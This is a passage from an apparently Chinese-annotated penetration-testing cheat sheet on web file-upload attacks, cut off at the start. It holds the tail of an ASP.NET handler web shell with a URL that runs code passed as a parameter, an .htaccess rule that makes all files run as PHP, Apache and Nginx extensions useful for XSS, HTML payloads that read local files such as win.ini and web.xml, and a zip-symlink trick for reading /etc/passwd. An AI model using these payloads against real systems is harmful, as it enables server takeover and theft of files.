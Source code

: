 ```
    public bool IsReusable
    {
        get
        {
            return false;
        }
    }
}
http://192.168.44.132:8980/HandlerSpy.ashx?Ivan=context.Response.Write(DateTime.Now.ToString())     #输出时间
```
# 0x05 apahce  (httpd or Tomcat)  
```
basic   .html.xxx .shtml
xml .rdf .xht .xml .xsl .svg .xhtml .svgz   #apache返回包里面没有Content-type 这样就可能根据浏览器的习性造成xss攻击  
```
## 1. shell
.htaccess
```
SetHandler application/x-httpd-php  #所有文件解析成php 也可以解析成其他脚本形式如perl ruby参考https://github.com/wireghoul/htshells
```
# 0x06 nginx
```  
basic   .htm
xml     .svg .xml .svgz
```
# 0x07.文件读取 or SSRF or rce
## 通过客户端或者相应的前端框架本地读取相应html
```
<script>alert(document.location);</script>  #get file_location  查看当前源  
动态的执行相关js   #前提是调用文件使用file协议
<embed src="c:\\windows\\win.ini" width="400" height="400">
<object width="400" height="400" data="file://c:/windows/win.ini"></object>
<iframe src="file:///C:/Windows/win.ini" width="400" height="400">
<embed src="file://c:/windows/win.ini" width="400" height="400">
<iframe src="http://localhost"></iframe>
<iframe src="../../../web.xml"></iframe>

http://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html
https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/
https://mike-n1.github.io/SSRF_P4toP2
https://hackernoon.com/cross-site-scripting-to-remote-code-execution-on-trellos-app-699512676f0c    #Cross-Site Scripting to Local File Inclusion on Trello’s App
https://hackerone.com/reports/243058
https://maustin.net/2015/11/12/hipchat_rce.html     #XSS to RCE in Atlassian Hipchat
https://medium.com/@arbazhussain/xss-using-dynamically-generated-js-file-a7a10d05ff08
```
## 2.zip自解压  
```
ln -s /etc/passwd link
zip --symlinks test.zip link    #通过自解压zip功能实现文件读取https://xz.aliyun.com/t/2589    #上传软链接读取passwd ln -s / test
```
